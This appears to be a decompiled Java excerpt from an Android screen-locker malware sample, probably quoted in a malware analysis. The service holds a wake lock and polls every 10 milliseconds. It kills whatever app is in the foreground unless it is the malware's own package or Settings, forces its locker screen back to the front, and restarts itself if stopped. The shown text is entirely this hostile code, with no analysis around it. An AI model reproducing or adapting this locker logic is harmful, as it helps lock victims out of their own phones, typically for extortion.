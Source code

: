 ```
/* compiled from: BackgroundService */
public class Hans5 extends Service {
  public static Hans5 Activity = null;
  public static Timer LockerExecutor = null;
  public static PowerManager.WakeLock wakeLock;

  public static void BringToFront(Context context) {
    try {
      Intent intent = new Intent(context.getApplicationContext(), Hans2.class);
      intent.setFlags(272629760);
      context.startActivity(intent);
    } catch (Throwable th) {
      th.printStackTrace();
    }
  }

  private TimerTask LockerTimer() {
    return new TimerTask() {
      public void run() {
        try {
          if (Hans2.Activity != null && !Hans2.STOP &&
              ((PowerManager) Hans2.Activity.getSystemService("power")).isScreenOn()) {
            ActivityManager activityManager =
              (ActivityManager) Hans2.Activity.getSystemService("activity");
            List<ActivityManager.RunningTaskInfo> runningTasks =
              activityManager.getRunningTasks(1);
            ComponentName componentName = runningTasks.get(0).topActivity;
            String packageName = componentName.getPackageName();
            if (!packageName.equals("qok.wrrgz.xcfwc") &&
                !packageName.equals("com.android.settings")) {
              Process.killProcess(runningTasks.get(0).id);
              Hans2.Activity.finishActivity(runningTasks.get(0).id);
              activityManager.killBackgroundProcesses(
                componentName.getPackageName());
              Hans5.BringToFront(Hans2.Activity.getApplicationContext());
            }
          }
          if (Hans5.Activity == null) {
            Intent intent = new Intent();
            intent.setAction("qok.wrrgz.xcfwc.Hans5");
            Hans5.this.getApplicationContext().startService(intent);
          }
        } catch (Throwable th) {
          th.printStackTrace();
        }
      }
    };
  }

  public void onStart(Intent intent, int i) {
    Activity = this;
    wakeLock = ((PowerManager) getSystemService("power")).newWakeLock(1, "locker");
    wakeLock.acquire();
    startTimer(LockerExecutor, LockerTimer(), 0, 10);
    super.onStart(intent, i);
  }

  ...
}
```

